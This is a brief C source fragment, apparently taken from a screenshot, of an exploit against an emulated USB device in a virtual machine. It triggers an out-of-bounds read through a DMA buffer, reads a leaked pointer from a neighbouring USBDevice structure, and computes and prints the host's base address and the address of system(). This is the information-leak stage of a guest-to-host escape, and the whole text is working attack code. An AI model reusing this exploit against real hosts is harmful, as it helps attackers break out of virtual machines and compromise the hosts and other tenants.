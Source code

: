 ```c
    init_state();
    sleep(2);
    set_length(0x2000,0x80);
    sleep(2);
    do_copy_read();
    sleep(2);
    struct USBDevice* usb_device_tmp=dmabuf+0x2004;
    struct USBDevice usb_device;
    memcpy(&usb_device,usb_device_tmp,sizeof(USBDevice));
    uint64_t dev_addr=usb_device.ep_ctl.dev;
    uint64_t *tmp=dmabuf+0x24f4;
    long long base=*tmp;
    if(base == 0){
        printf("INIT DOWN,DO IT AGAIN");
        return 0;
}
    base-=0xee5480-0x2668c0;
    uint64_t system=base+0x2d9610;
    puts("\\\\\\\\\\\\\\\\\\\\\\\\");
    printf("LEAK BASE ADDRESS:%llx!\n",base);
    printf("LEAK SYSTEM ADDRESS:%llx!\n",system);
    puts("\\\\\\\\\\\\\\\\\\\\\\\\");
}
```
